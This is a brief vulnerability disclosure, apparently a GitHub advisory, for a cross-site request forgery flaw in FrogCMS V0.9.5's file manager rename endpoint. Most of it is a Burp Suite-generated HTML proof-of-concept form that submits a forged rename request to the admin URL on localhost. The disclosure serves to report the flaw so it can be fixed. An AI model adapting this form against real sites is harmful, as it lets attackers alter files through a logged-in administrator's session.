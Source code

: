 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/plugin/file_manager/rename

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/plugin/file_manager/rename" method="POST">
      <input type="hidden" name="/plugin/file_manager/rename" value="" />
<input type="hidden" name="file%5Bcurrent_name%5D" value="cs" />
<input type="hidden" name="file%5Bnew_name%5D" value="cs" />
<input type="hidden" name="commit" value="Rename" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

